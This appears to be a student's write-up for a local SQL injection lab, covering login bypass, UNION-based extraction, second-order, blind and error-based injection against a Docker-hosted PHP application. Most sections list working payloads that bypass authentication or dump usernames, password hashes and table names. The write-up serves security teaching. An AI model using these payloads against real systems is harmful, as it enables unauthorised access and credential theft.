 # Vulnerabilities in Applications: SQL Injections


## Environment setup

1. `sudo docker-compose up`
2. The appliction is now available at: [http://127.0.0.1:8000](http://127.0.0.1:8000) (inside the VM)

**Note 1:** In all exercises, adding the `?debug=true` argument to the URL will print some debug information.

**Note 2:** In all cases, you must terminate all SQL queries by using `-- //`. The objective is to discard all text after your payload.



## SQL Injection Attacks

### Basic SQL Injections I

The login validation is made by executing the following line:

`SELECT * FROM users where username='".$user."' AND password ='.md5($password).'`

Following this query structure, we put a valid username in the username input like this: `admin' -- //`.

This will make the atribution `username='admin` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).


### Basic SQL Injections II

In this exercise we are testing another login page.

In this one, the login validation is made by executing the following line:

`SELECT * FROM users where (username='".$user."') AND (password ='.md5($password).')`.

Following this query structure, we put a valid username in the username input like this: `admin') -- //`. In this case the closing paranthesis is necessary in order to bypass the query structure.

This will make the atribution `(username='admin)` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).

**Note:** In the past two sub-sections we exploited the username field because the pasword field is enctrypted with a hash before it goes to the server, so that field cannot be used to bypass the system.


### SQL Injections 

In this section we are testing a form that enables the search for products by partial matching of a string or character.

The query is made by executing the following line:

`"SELECT * FROM products WHERE product_name LIKE'".$query."%'`

There are several ways to take advantage of this and extract information:

 1. `b%' order by 5 -- //`
	
	The `order by N` directive is ordering the displayed information by the **column N**, in this way we can manipulate the order of data as we want.
	
	 The first part of the query (`CHARS%`) is necessary and lets us search for products that start with the pattern defined by **CHARS**.
	 
2. `'union select null,id,username,password,fname from users -- // `
	
	Following the same logic as in the first one, we can use the `union` directive followed by a `select` to populate the table we the information we want to see.
	
	In this specific example, we are able to access and see information about all users stored in the database.

3.  `'union select 1,'<img src="http://address"><img>',3,4,5 -- //`
	
	In this example (a little bit like the previous one), we are changing the information displayed and adding html code to display an image of our choice.

4. `'union select null,null,null,null,table_name from information_schema.tables -- //`
	
	One last example where we change the table's information and diplay the name of all the tables stored in the database.


### SQL Second order attacks
**Definition:** attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function.

Basically, what we have is a field that will present any value we want.

The technique used in the last step can be used here.

The difference is that the information is not provided immediately, but only when the user executes the respective function.

This highlights the case that **SQL Injections can happen even in internal functions** that process data out of the database.

Examples:
1. `'or 1 in (SELECT @@version) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning 1292: Truncated incorrect DOUBLE value : 1.1.1.2`

2. `'or 1 in (select password from users) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning<: 1292: Truncated incorrect DOUBLE value : (...)`, where `(...)` are the passwords stored at the passwords' column of the table users.


### Blind SQL Injection
**Definition:** when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true/false, etc... ) that provides information about the data in the database.

A good example is a page that displays information abouta user.

In this situation,  the user is specified in the URL. 

The query is:

`SELECT * FROM users WHERE username ='".$_GET["user"]."'`

We can bypass the system by write in the URL the following statement:
`user=bob' AND TEST -- //`.

If the TEST succeeds, information is presented. Otherwise nothing is presented.

Examples:

1. `user=bob' AND substring((select id from users limit 1), 1, 1)>0 -- //`
	
	In this example, we can test if the **id** column exists in the database (if the profile data is shown, the column exists; otherwise nothing is showed to the user).

2. `user=bob' AND substring((select count(id) from users), 1) = N -- //`

	In this example, we can figure it out how many users are stored in the users' table by changing the value N until the profile data is shown.

3. `user=bob' AND substring((select count(id) from users where username like 'a%'), 1) = N -- //`

	In this example, we can figure it out how many users have a username starting with 'a' by changing the value N until the profile data is shown.


### Error based data extraction

Following previous cenarios:

 1. `'or 1 in (select password from users where username ='admin') -- //`
 
	It will return the hashed password of the admin user.

	Any field or user can be obtained

2. `'or 1 in (select username from users where id=1) -- //`

	It will return all usernames stored in the users' table.
	
3. `'or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED)-- //` 

	Lists the tables of the information_schema first database.

4. `'or 1=CAST((select group_concat(username) from users) AS SIGNED)-- //` 

	Lists the usernames of all users stored in the users' table.

5. `'or 1=CAST((select group_concat(password) from users) AS SIGNED)-- //` 

	Lists the passwords of all users stored in the users' table.
